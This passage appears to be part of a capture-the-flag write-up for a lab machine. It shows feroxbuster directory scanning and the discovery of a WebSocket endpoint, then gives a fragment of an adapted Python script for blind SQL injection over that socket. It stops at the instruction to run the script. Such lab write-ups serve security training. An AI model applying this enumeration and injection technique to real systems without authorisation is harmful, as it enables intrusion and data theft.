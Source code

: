 It was almost identical except it had another login page, signups, and tickets.

Feroxbuster also revealed different capitalizations for the directories.

```console
└─$ feroxbuster -u http://soc-player.soccer.htb -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -x txt,html,php,pdf,git -q
301      GET       10l       16w      173c http://soc-player.soccer.htb/css => /css/
301      GET       10l       16w      171c http://soc-player.soccer.htb/js => /js/
302      GET        1l        4w       23c http://soc-player.soccer.htb/logout => /
200      GET       98l      216w     3307c http://soc-player.soccer.htb/login
200      GET      157l      535w     6749c http://soc-player.soccer.htb/
301      GET       10l       16w      173c http://soc-player.soccer.htb/img => /img/
200      GET       98l      216w     3307c http://soc-player.soccer.htb/Login
200      GET      104l      229w     3741c http://soc-player.soccer.htb/signup
200      GET        1l        6w       31c http://soc-player.soccer.htb/check
200      GET      403l      706w    10078c http://soc-player.soccer.htb/match
200      GET      104l      229w     3741c http://soc-player.soccer.htb/Signup
200      GET      104l      229w     3741c http://soc-player.soccer.htb/SignUp
200      GET        1l        6w       31c http://soc-player.soccer.htb/Check
200      GET       98l      216w     3307c http://soc-player.soccer.htb/LOGIN
200      GET      403l      706w    10078c http://soc-player.soccer.htb/Match
🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_soc-player_soccer_htb-1671827892.state ...
Scanning: http://soc-player.soccer.htb
Scanning: http://soc-player.soccer.htb/css
Scanning: http://soc-player.soccer.htb/js
Scanning: http://soc-player.soccer.htb/
Scanning: http://soc-player.soccer.htb/img
```    

If we check out the source code for the ```Check``` page we can see it has another open socket and is also another domain. So I went ahead and added this to my hosts file.


```json
<script>
        var ws = new WebSocket("ws://soc-player.soccer.htb:9091");
        window.onload = function () {
```

If you are able to capture a ticket response in burp then the output of the websocket will look like this. (It was really inconsistent and did not always work, Also I made sure I was on the "Check" webpage. Captilization matters"

```json
{"id":"85285}
```
After messing around a bit and not having luck with my own union select I googled some about it and found his webpage.

https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html

Take their script and add the websocket we found and change the data type to id.

Should look something like this.
```python
ws_server = "ws://soc-player.soccer.htb:9091"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"id":"%s"}' % message
```
Now run the script.